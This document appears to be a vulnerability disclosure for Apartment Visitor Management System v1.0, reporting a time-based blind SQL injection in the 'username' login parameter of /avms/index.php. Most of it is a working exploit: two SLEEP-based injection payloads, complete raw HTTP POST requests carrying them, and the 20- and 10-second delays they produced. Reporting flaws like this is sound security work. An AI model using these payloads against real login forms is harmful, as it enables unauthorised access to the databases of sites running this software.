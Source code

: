 # Apartment Visitor Management System v1.0 by oretnom23 has SQL injection

BUG_Author: zhaoqiushi

vendors:https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code

Vulnerability File: /avms/index.php

Parameter "username" (POST), exists delayed injection vulnerability

Payload1: username=12' AND (SELECT 1 FROM (SELECT(SLEEP(20)))qw) AND 'bc'='bc&password=34&login=

```
POST /avms/index.php HTTP/1.1
Host: localhost
Content-Length: 112
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/avms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=pffl7cq1luqqavsphrt8r525gf
Connection: close

username=12%27+AND+%28SELECT+1+FROM+%28SELECT%28SLEEP%2820%29%29%29qw%29+AND+%27bc%27%3D%27bc&password=34&login=
```

select(sleep(20)) The server response time is 20 seconds

![image](https://github.com/375978342/pic/blob/main/tw.png)

Payload2: username=12' AND (SELECT 1 FROM (SELECT(SLEEP(10)))qw) AND 'bc'='bc&password=34&login=

```
POST /avms/index.php HTTP/1.1
Host: localhost
Content-Length: 112
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/avms/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=pffl7cq1luqqavsphrt8r525gf
Connection: close

username=12%27+AND+%28SELECT+1+FROM+%28SELECT%28SLEEP%2810%29%29%29qw%29+AND+%27bc%27%3D%27bc&password=34&login=
```

select(sleep(10)) The server response time is 10 seconds

![image](https://github.com/375978342/pic/blob/main/ten.png)

